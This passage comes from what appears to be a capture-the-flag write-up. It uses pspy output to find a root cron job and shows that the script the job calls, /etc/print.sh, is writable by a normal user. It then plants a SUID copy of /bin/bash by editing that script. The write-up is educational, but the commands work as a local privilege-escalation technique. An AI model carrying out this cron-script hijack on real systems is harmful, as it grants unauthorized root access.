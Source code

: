 ### Pspy results
```console
2020/11/09 08:38:01 CMD: UID=0    PID=12033  | /bin/bash /home/lennie/scripts/planner.sh 
2020/11/09 08:38:01 CMD: UID=0    PID=12032  | /bin/sh -c /home/lennie/scripts/planner.sh 
2020/11/09 08:38:01 CMD: UID=0    PID=12031  | /usr/sbin/CRON -f                    
2020/11/09 08:38:01 CMD: UID=0    PID=12035  | /bin/bash /etc/print.sh                                                                                                          
2020/11/09 08:38:01 CMD: UID=0    PID=12036  | /bin/bash /etc/print.sh 
2020/11/09 08:39:01 CMD: UID=0    PID=12043  | /bin/bash /home/lennie/scripts/planner.sh 
2020/11/09 08:39:01 CMD: UID=0    PID=12049  | /bin/bash /etc/print.sh 
```
I have just shown the partial result of PSPY. Here we can see at time **8:38:01**, a script called planner.sh is executed by root(UID=0) which is followed by few other scripts at the same time. And after just 1 min ie **8:39:01**, the same file is executed. So we can tell that there is a cron running which is executing that script.

### Checking the content of /home/lennie/scripts/planner.sh 
```console
lennie@startup:~/scripts$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov  9 02:13 .
drwx------ 5 lennie lennie 4096 Nov  9 08:36 ..
-rwxr-xr-x 1 root   root     77 Nov  9 02:12 planner.sh
-rw-r--r-- 1 root   root      1 Nov  9 08:42 startup_list.txt
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
If we look at the file permission of planner.sh, we can read it but we cannot change it. If we could have write permission on that file, we could have executed any commands we like as root.
Looking at the content of that file, it also executes a second file. ie **/etc/print.sh**.

### FIle permission of /etc/print.sh
```console
lennie@startup:~/scripts$ ls -la /etc/print.sh 
-rwx------ 1 lennie lennie 69 Nov  9 07:00 /etc/print.sh
```
Looking at the file permission, user lennie can write to this file. So, we can now execute commands as root, all we have to do is to modify the script with the code we want to execute. We obviously want to be root on the system. We can achive that with different techniques. Here I am going to make a SUID binary.

### New content of /etc/print.sh
```console
lennie@startup:~/scripts$ cat /etc/print.sh 
#!/bin/bash
echo "Done!"
cp /bin/bash /tmp/bash
chmod 4755 /tmp/bash
```
Here I have copied the usual /bin/bash binary to /tmp and set the SUID bit on it, so that when we execute it we have the effective permission of a root user.
Now we just have to wait for the cron to execute the script.
